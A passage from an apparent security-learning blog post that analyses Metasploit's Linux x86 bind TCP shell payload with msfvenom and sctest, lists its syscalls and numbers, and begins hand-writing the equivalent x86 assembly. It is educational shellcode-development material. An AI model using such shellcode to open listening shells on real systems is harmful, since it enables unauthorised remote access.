 * We can also get the graph version of the disassemble process

{% highlight js %}
msfvenom -p linux/x86/shell_bind_tcp -f raw | ./sctest -vvv -Ss 100000 -G bind_shell_tcp_graph.dot
dot bind_shell_tcp_graph.dot -Tpng -o bind_shell_tcp_graph.png
{% endhighlight %}

![Bind Shell](https://bohansec.com/assets/bind_shell_tcp_graph.png "Bind Shell")

We can see in order for the bind TCP shell to work, there are several system calls used:

* socket 
* bind
* listen
* accept4
* dup2
* execve

We can find each system calls number at /usr/include/i386-linux-gnu/asm/unistd_32.h: 

* socket - 359
* bind - 361
* listen - 363
* accept4 - 364
* dup2 - 63
* execve - 11

![system calls](https://bohansec.com/assets/system_calls.png "system calls")

### Step2 - Assembly x86 crafting

* EAX - sys call
* EBX - first argument
* ECX - second argument
* EDX - third argument 
* ESI - fourth argument 
* EDI - fifth argument 

we can set all the registers to 0 for later usage as following: 

{% highlight js %}
;init the registers
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
xor esi, esi
xor edi, edi
{% endhighlight %}

We create a socket at first, “domain”, “type” and “protocol” are arguments we are supposed to pass into. [Socket Man Page](https://man7.org/linux/man-pages/man2/socket.2.html){:target="_blank"}

{% highlight js %}
;create a socket
mov ax, 359 ;call the socket
mov bl, 2 ;set domain to 2
mov cl, 1 ; set type to 1
int 0x80
{% endhighlight %}

